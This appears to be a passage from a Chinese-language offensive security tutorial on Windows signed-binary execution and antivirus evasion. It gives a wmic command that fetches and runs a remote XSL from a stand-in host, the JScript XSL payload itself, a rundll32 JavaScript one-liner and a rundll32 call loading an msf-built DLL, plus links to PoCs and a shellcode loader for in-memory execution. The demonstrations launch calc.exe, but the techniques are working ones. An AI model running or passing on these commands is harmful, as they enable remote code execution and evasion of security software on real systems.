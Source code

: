 ## wmic

已经被添加到环境变量

poc
```bash
wmic os get /FORMAT:"http://example.com/evil.xsl"
```
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	]]> </ms:script>
</stylesheet>
```

参考:[利用wmic调用xsl文件的分析与利用](https://3gstudent.github.io/利用wmic调用xsl文件的分析与利用/)
这里还有一个poc https://raw.githubusercontent.com/kmkz/Sources/master/wmic-poc.xsl

## rundll32

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。已经加入环境变量。

```bash
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

也可以去执行msf生成的dll

```bash
rundll32.exe shell32.dll,Control_RunDLL c:\Users\Y4er\Desktop\1.dll
```

---

在这我们先简单介绍这几种，还有`compiler.exe` `odbcconf` `psexec` `ftp.exe`等等。在这里给出参考连接

micro8前辈 https://micro8.gitbook.io/micro8/contents-1#71-80-ke

# payload分离免杀

在这里也只介绍两种分离免杀的姿势

## shellcode loader

借助第三方加载器，将shellcode加载到内存中来执行。

https://github.com/clinicallyinane/shellcode_launcher
